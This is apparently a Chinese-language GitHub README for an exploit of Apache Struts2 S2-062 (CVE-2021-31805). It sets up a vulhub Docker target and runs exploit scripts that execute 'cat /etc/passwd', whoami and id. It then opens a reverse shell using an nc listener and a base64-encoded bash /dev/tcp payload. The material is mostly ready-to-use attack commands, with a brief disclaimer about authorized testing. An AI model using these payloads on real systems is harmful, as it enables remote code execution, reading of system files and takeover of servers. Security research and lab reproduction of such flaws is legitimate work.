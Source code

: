 # Struts2_S2-062_CVE-2021-31805
Apache Struts2 S2-062远程代码执行漏洞(CVE-2021-31805)  | 反弹Shell
# 漏洞复现环境

docker-compose.yml
```
version: '2'
services:
 struts2:
   image: vulhub/struts2:2.5.25
   ports:
    - "8080:8080"
```
拉取镜像启动环境
```
docker-compose up -d
```
访问地址：http://1.1.1.1:8080
# 漏洞验证脚本
```
python Struts2_S2-062_CVE-2021-31805.py http://1.1.1.1:8080/index.action "cat /etc/passwd"
```
![passwd](./images/passwd.png)
```
python Struts2_S2-062_CVE-2021-31805.py http://1.1.1.1:8080/index.action whoami
```
![root](./images/root.png)
```
python Struts2_S2-062_CVE-2021-31805.py http://1.1.1.1:8080/index.action id
```
![id](./images/id.png)
# 反弹Shell
## NC开启端口监听
```
nc -lvvp 8081
```
![NC](./images/NC.png)

构造base64编码反弹shell脚本，利用如下网站生成：https://ir0ny.top/pentest/reverse-encoder-shell.html
![base64](./images/base64.png)
## 获取Shell
```
python CVE-2021-31805_Shell.py http://1.1.1.1:8080/index.action "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvODA4MCAwPiYx}|{base64,-d}|{bash,-i}"
```
![shell](./images/shell.png)

## 成功获取Shell

![Shell_code](./images/Shell_code.png)


# 免责声明
请勿用于非法的用途，仅做安全测试，否则造成的后果与本项目无关。
注：要在正规授权情况下测试网站：日站不规范，亲人泪两行。
